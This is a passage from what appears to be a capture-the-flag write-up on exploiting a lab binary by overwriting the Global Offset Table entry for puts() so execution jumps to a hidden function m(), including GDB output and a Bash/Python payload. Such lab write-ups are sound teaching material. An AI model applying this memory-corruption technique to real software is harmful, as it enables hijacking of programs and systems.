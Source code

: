 &#x20; &#x20;

The first instruction shows us a jump to an address stored at `0x08049928`.

This is the **Global Offset Table (GOT) entry for** `puts()`. It’s a pointer that, once resolved, holds the actual location of the real `puts()` function in libc. By overwriting it, we can redirect execution to anywhere, including our hidden function `m()`.

GOT entry target: `0x08049928`

We now have the following setup:

* `b[1]` (overwritable pointer) will be set to `0x08049928`
* `argv[2]` (copied into `*b[1]`) will contain the address of `m()`

This lets us write a new function address into the GOT entry of `puts()`, gaining control of the execution flow.

Next, we’ll find the exact address of `m()` so we can complete the exploit payload.

## Step 4: Find the Address of `m()`

To redirect execution properly, we need the actual address of the `m()` function. Use GDB to list the functions and inspect `m`:

```gdb
(gdb) info functions
...
0x080484f4 m
...
```

So the address of `m()` is:

```gdb
0x080484f4
```

Now we have everything we need:

* `Offset to overwrite b[1]`: 20 bytes
* `Address to write into b[1]`: `0x08049928` (GOT entry of `puts`)
* `Data to write at this address`: `0x080484f4` (address of `m()`)

## Step 5: Craft and Run the Final Exploit

We’ll construct two arguments:

* `argv[1]`: 20-byte padding + address of the GOT entry for `puts` (`0x08049928`)
* `argv[2]`: address of `m()` (`0x080484f4`)

### Build the payload

Here’s how you do it in Bash using `python -c` for each argument:

```bash
export A=$(python -c 'print("A" * 20 + "\x28\x99\x04\x08")')
export B=$(python -c 'print("\xf4\x84\x04\x08")')
```
